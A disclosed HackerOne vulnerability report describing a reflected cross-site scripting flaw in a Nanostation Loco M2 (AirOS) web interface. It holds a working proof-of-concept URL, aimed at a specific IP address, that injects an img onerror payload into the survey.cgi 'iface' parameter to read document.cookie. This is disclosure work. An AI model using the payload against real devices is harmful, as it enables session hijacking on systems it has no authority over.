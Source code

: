 # Reflected Xss in AirMax [Nanostation Loco M2]

## Report Details
- **Report ID**: 149287
- **URL**: https://hackerone.com/reports/149287
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-05T07:44:12.161Z
- **Disclosed**: 2016-12-12T20:36:13.955Z

## Reporter
- **Username**: b7882330c6060c6b277c5a1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
Dear James,

I've found a reflected xss in nanostation Loco M2.

just open this link and xss will execute.
http://172.98.67.89:22057/survey.cgi?iface=%22%3E%3Cimg%20src=x%20onerror=prompt(document.cookie)%3E

{F103333}

Best Regard
Shubham

## Attachments
- AirOS_Xss.png
